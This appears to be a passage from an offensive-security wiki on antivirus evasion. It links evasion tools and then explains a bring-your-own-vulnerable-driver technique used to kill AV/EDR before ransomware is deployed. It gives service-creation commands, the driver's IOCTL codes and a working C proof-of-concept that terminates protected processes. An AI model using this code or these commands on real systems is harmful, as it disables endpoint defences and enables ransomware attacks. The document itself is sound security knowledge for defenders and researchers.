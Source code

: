 ```bash
# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```
```
### More

- [[https://github.com/Seabreg/Xeexe-TopAntivirusEvasion|https://github.com/Seabreg/Xeexe-TopAntivirusEvasion]]

## Bring Your Own Vulnerable Driver (BYOVD) – Killing AV/EDR From Kernel Space

Storm-2603 leveraged a tiny console utility known as **Antivirus Terminator** to disable endpoint protections before dropping ransomware. The tool brings its **own vulnerable but *signed* driver** and abuses it to issue privileged kernel operations that even Protected-Process-Light (PPL) AV services cannot block.

Key take-aways
1. **Signed driver**: The file delivered to disk is `ServiceMouse.sys`, but the binary is the legitimately signed driver `AToolsKrnl64.sys` from Antiy Labs’ “System In-Depth Analysis Toolkit”. Because the driver bears a valid Microsoft signature it loads even when Driver-Signature-Enforcement (DSE) is enabled.
2. **Service installation**:
   ```powershell
   sc create ServiceMouse type= kernel binPath= "C:\Windows\System32\drivers\ServiceMouse.sys"
   sc start  ServiceMouse
   ```
   The first line registers the driver as a **kernel service** and the second one starts it so that `\\.\ServiceMouse` becomes accessible from user land.
3. **IOCTLs exposed by the driver**
   | IOCTL code | Capability                              |
   |-----------:|-----------------------------------------|
   | `0x99000050` | Terminate an arbitrary process by PID (used to kill Defender/EDR services) |
   | `0x990000D0` | Delete an arbitrary file on disk |
   | `0x990001D0` | Unload the driver and remove the service |

   Minimal C proof-of-concept:
   ```c
   #include <windows.h>
   
   int main(int argc, char **argv){
       DWORD pid = strtoul(argv[1], NULL, 10);
       HANDLE hDrv = CreateFileA("\\\\.\\ServiceMouse", GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
       DeviceIoControl(hDrv, 0x99000050, &pid, sizeof(pid), NULL, 0, NULL, NULL);
       CloseHandle(hDrv);
       return 0;
   }
   ```
4. **Why it works**:  BYOVD skips user-mode protections entirely; code that executes in the kernel can open *protected* processes, terminate them, or tamper with kernel objects irrespective of PPL/PP, ELAM or other hardening features.
